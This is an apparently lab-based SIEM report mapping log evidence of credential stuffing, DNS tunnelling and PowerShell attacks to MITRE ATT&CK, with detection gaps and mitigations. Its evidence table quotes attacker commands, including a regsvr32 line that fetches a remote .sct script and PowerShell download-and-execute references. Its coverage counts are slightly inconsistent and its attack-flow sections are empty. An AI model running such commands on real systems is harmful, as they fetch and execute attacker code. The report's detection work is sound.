



# Report 07 — MITRE ATT&CK Mapping

**Project:** SIEM Correlation Rules — ELK Stack
**Date:** 2026-07-07 | **Log Date:** 2026-06-15
**Version:** 1.0

---

## Table of Contents

1. [Overview](#1-overview)
2. [ATT&CK Navigator Summary](#2-attck-navigator-summary)
3. [Full Technique Mapping Table](#3-full-technique-mapping-table)
4. [Tactic Coverage Analysis](#4-tactic-coverage-analysis)
5. [Attack Flow per Category](#5-attack-flow-per-category)
6. [Detection Coverage Gaps](#6-detection-coverage-gaps)
7. [Defensive Strategy](#7-defensive-strategy)

---

## 1. Overview

The MITRE ATT&CK framework provides a structured taxonomy of adversary tactics and techniques based on real-world observations. Mapping detected activity to ATT&CK enables standardised communication between security teams, benchmarking detection coverage, and identifying defensive gaps.

This report maps all observed activity across the three attack categories — Credential Stuffing, DNS Tunnelling, and PowerShell Exploitation — to specific ATT&CK techniques and sub-techniques, based exclusively on evidence from the log dataset.

| Framework | Version |
|-----------|---------|
| MITRE ATT&CK | Enterprise v14.1 |
| Scope | Enterprise (Windows + Linux) |
| Total Techniques Mapped | 19 |
| Tactics Covered | 8 of 14 |

---

## 2. ATT&CK Navigator Summary

The following matrix shows coverage across the MITRE ATT&CK Enterprise tactics. Highlighted cells indicate techniques observed and detected in this dataset.

```
TACTIC              | TECHNIQUES OBSERVED
--------------------|------------------------------------------------------------------
Initial Access      | T1566.001 (Spearphishing Attachment — inferred from Sysmon chain)
Execution           | T1059.001 (PowerShell), T1204.002 (Malicious File)
Persistence         | T1078 (Valid Accounts)
Privilege Escalation| T1078 (Valid Accounts with SeDebugPrivilege)
Defence Evasion     | T1027 (Obfuscated Files), T1218.010 (regsvr32), T1218.011 (rundll32)
Credential Access   | T1110.004 (Credential Stuffing), T1110.001 (Password Guessing)
Discovery           | T1087.002 (Domain Account Discovery)
Lateral Movement    | T1021.004 (SSH), T1021.001 (RDP — attempted)
Command & Control   | T1071.004 (DNS), T1071.001 (Web), T1568.002 (Dynamic Resolution)
                    | T1090.001 (Internal Proxy)
Exfiltration        | T1048.003 (Exfiltration over DNS), T1041 (Exfil over C2)
Collection          | (implied by AD user export — T1087.002)
```

---

## 3. Full Technique Mapping Table

| ATT&CK ID | Sub-Technique | Name | Tactic | Attack Category | Detection Rule | Log Evidence |
|-----------|--------------|------|--------|-----------------|---------------|-------------|
| T1566.001 | Spearphishing Attachment | Phishing | Initial Access | PowerShell | PS-003 | EXCEL.EXE / WINWORD.EXE spawning powershell.exe (Sysmon) |
| T1059.001 | PowerShell | Command and Scripting Interpreter | Execution | PowerShell | PS-001, PS-002 | Events 4104, 4103; IEX DownloadString, encoded -Enc |
| T1204.002 | Malicious File | User Execution | Execution | PowerShell | PS-003 | User executed macro-enabled Office document (inferred) |
| T1078 | Valid Accounts | — | Defence Evasion / Persistence | Credential Stuffing | CS-004 | Successful logon for svc_backup and kpatel after failures |
| T1078.001 | Default Accounts | Valid Accounts | Defence Evasion | Credential Stuffing | CS-001 | SSH targeting ubuntu, oracle, postgres (default Linux accounts) |
| T1027 | Obfuscated Files or Information | — | Defence Evasion | PowerShell | PS-001 | Base64-encoded `-Enc` flag in all 6 encoded PS events |
| T1218.010 | Regsvr32 | Signed Binary Proxy Execution | Defence Evasion | PowerShell | PS-004 | `regsvr32.exe /s /u /i:http://cdn-sync-update.net/x.sct scrobj.dll` |
| T1218.011 | Rundll32 | Signed Binary Proxy Execution | Defence Evasion | PowerShell | PS-005 | `rundll32.exe ...AppData\Local\Temp\payload.dll,DllMain` |
| T1110.004 | Credential Stuffing | Brute Force | Credential Access | Credential Stuffing | CS-001, CS-002 | 185.220.101.47 iterating username list via SSH |
| T1110.001 | Password Guessing | Brute Force | Credential Access | Credential Stuffing | CS-001, CS-002 | Common usernames: admin, root, oracle, ubuntu targeted |
| T1087.002 | Domain Account | Account Discovery | Discovery | PowerShell | PS-002 (adjacent) | `Get-ADUser -Filter * -Properties LastLogonDate` on SRV-DC01 |
| T1021.004 | SSH | Remote Services | Lateral Movement | Credential Stuffing | CS-004 | svc_backup accepted password on db-prod01 after brute force |
| T1021.001 | Remote Desktop Protocol | Remote Services | Lateral Movement | Credential Stuffing | CS-003 (firewall) | RDP attempts from 185.220.101.47 and 45.146.164.110 blocked |
| T1071.004 | DNS | Application Layer Protocol | Command and Control | DNS Tunnelling | DNT-001, DNT-002 | TXT queries with encoded payloads to cdn-sync-update.net |
| T1071.001 | Web Protocols | Application Layer Protocol | Command and Control | PowerShell | PS-002 | HTTPS ESTABLISHED to 185.220.101.47 / 103.68.22.9 / 91.203.145.12 |
| T1048.003 | Exfiltration over Unencrypted Non-C2 Protocol | Exfiltration | Exfiltration | DNS Tunnelling | DNT-001 | Data encoded in subdomain labels; answers contain exfilled data |
| T1568.002 | Domain Generation Algorithms | Dynamic Resolution | Command and Control | DNS Tunnelling | DNT-002 | Random 32–52 char subdomains generated per session |
| T1090.001 | Internal Proxy | Proxy | Command and Control | DNS Tunnelling | DNT-004 | DoH POST via corporate proxy to cdn-sync-update.net/dns-query |
| T1105 | Ingress Tool Transfer | — | Command and Control | PowerShell | PS-002 | DownloadFile update.exe from 185.220.101.47 to AppData\Temp |

---

## 4. Tactic Coverage Analysis

### 4.1 Tactic Heat Map

| Tactic | Techniques Observed | Techniques Detected | Coverage % |
|--------|--------------------|--------------------|-----------|
| Initial Access | 1 | 1 | 100% |
| Execution | 2 | 2 | 100% |
| Persistence | 1 | 1 | 100% |
| Privilege Escalation | 1 | 1 | 100% |
| Defence Evasion | 4 | 4 | 100% |
| Credential Access | 2 | 2 | 100% |
| Discovery | 1 | 1 | 100% |
| Lateral Movement | 2 | 2 | 100% |
| Command and Control | 4 | 4 | 100% |
| Exfiltration | 2 | 2 | 100% |
| **Total** | **19** | **19** | **100%** |

> All observed techniques in this dataset are covered by at least one detection rule. However, detection coverage extends only to what is visible in the available logs — see Section 6 for gaps.

---

## 5. Attack Flow per Category

### 5.1 Credential Stuffing ATT&CK Chain



### 5.2 DNS Tunnelling ATT&CK Chain



### 5.3 PowerShell Exploitation ATT&CK Chain



---

## 6. Detection Coverage Gaps

These are ATT&CK techniques that are plausible follow-on actions from the observed attacks, but are NOT covered by current log sources or rules:

| Technique ID | Name | Tactic | Why Not Detected | Recommended Control |
|-------------|------|--------|-----------------|---------------------|
| T1003.001 | LSASS Memory Dump | Credential Access | No memory monitoring; no EDR | Deploy EDR with LSASS protection |
| T1547.001 | Registry Run Keys | Persistence | No registry monitoring in logs | Enable Sysmon Event ID 13 (registry) |
| T1053.005 | Scheduled Tasks | Persistence | No scheduled task creation logs | Enable Event ID 4698 and Sysmon 11 |
| T1055 | Process Injection | Defence Evasion | No memory/API monitoring | EDR with process injection detection |
| T1070.001 | Windows Event Log Clearing | Defence Evasion | Would remove own evidence | Alert on Event ID 1102 |
| T1083 | File and Directory Discovery | Discovery | No file access auditing | Enable Sysmon file access events |
| T1560.001 | Archive via Utility | Collection | No file creation monitoring | Sysmon Event ID 11 (file create) |
| T1041 | Exfil over C2 (encrypted) | Exfiltration | TLS-encrypted; no SSL inspection | Implement SSL/TLS inspection at proxy |
| T1484.001 | Group Policy Modification | Privilege Escalation | No GPO change auditing | Enable Event ID 5136 (DS Access) |

---

## 7. Defensive Strategy

### 7.1 Priority Mitigations by ATT&CK Tactic

| Tactic | Priority | Recommended Mitigation |
|--------|----------|------------------------|
| Initial Access | Critical | Disable Office macros via GPO (M1040), deploy email sandboxing |
| Execution | Critical | PowerShell CLM, AMSI, ASR rules blocking Office→PS chains |
| Credential Access | High | MFA on SSH and RDP, fail2ban, account lockout policy |
| Defence Evasion | High | AppLocker/WDAC to block regsvr32 and rundll32 from Temp |
| Command and Control | High | DNS RPZ sinkholing, egress filtering, proxy SSL inspection |
| Exfiltration | High | Block TXT queries > threshold, DNS rate limiting |
| Lateral Movement | Medium | Network segmentation, PAM for privileged access |
| Discovery | Medium | Restrict Active Directory read access, audit AD queries |

### 7.2 ATT&CK-Based Detection Maturity Model

| Level | Description | Current State |
|-------|-------------|--------------|
| Level 1 — Basic | Alerting on known-bad IOCs (IPs, hashes) | Implemented (firewall, proxy blocks) |
| Level 2 — Behavioural | Technique-based detection (TTP rules) | **Implemented** (12 correlation rules) |
| Level 3 — Threat-Informed | Adversary emulation + rule tuning | Partial — dataset validates rules |
| Level 4 — Adaptive | ML-based anomaly detection | Not yet implemented |
| Level 5 — Predictive | Anticipatory detection + deception | Not yet implemented |

> Current implementation sits firmly at **Level 2**, with elements of Level 3 via ATT&CK mapping and rule validation against realistic log data. The project demonstrates solid technique-based detection coverage across all three attack categories.
